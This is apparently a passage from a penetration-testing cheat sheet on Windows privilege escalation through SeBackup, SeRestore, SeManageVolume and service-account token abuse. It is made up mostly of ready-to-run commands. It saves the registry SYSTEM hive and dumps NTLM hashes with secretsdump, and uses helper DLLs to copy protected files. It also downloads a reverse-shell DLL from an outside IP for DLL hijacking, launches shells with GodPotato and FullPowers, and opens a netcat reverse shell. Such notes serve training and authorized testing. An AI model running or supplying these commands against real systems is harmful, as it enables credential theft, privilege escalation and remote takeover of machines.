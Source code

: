 ```bash

# Download system hive from registry
mkdir C:\temp
reg save hklm\system C:\temp\system.hive
download system

# Dump NTLM hashes using secretsdump
impacket-secretsdump -ntds ntds.dit -system system -hashes lmhash:nthash LOCAL
```

DLL abuse allowing us to read any file on the system (can be used to dump SYSTEM & SAM):
- https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug
```bash
Import-Module .\\SeBackupPrivilegeUtils.dll
Import-Module .\\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Copy-FileSeBackupPrivilege \<PATH>\proof.txt .\proof.txt
```


#### SeRestore

SeRestoreAbuse.exe:
- https://github.com/alexandre-pecorilla/Binaries-Scripts
```bash
.\SeRestoreAbuse.exe C:\users\public\shell.exe
```


#### SeManageVolume

The following PoC allows us to gain complete control over the filesystem:
- https://github.com/CsEnox/SeManageVolumeExploit/releases
```bash
.\SeManageVolumeExploit.exe
```

To become the administrator user we can follow this guide:
- https://github.com/xct/SeManageVolumeAbuse/tree/main?tab=readme-ov-file
```bash
# Transfer reverse shell DLL named tzres.dll to C:\windows\system32\wbem 
iwr -uri http://192.168.45.237/shell.dll -OutFile tzres.dll

# Run the systeminfo command to get a shell as network service
systeminfo

# Abuse SeImpersonate
.\godpotato.exe -cmd "shell.exe"
```


#### Service accounts - regain permissions 

On service level accounts we can regain our original permissions using FullPowers.exe:
- https://github.com/itm4n/FullPowers/releases
```bash
# Using reverse shell
.\FullPowers.exe -c "shell.exe"

# Using NC
.\FullPowers.exe -c "nc.exe <IP> <port> -e cmd.exe"
```
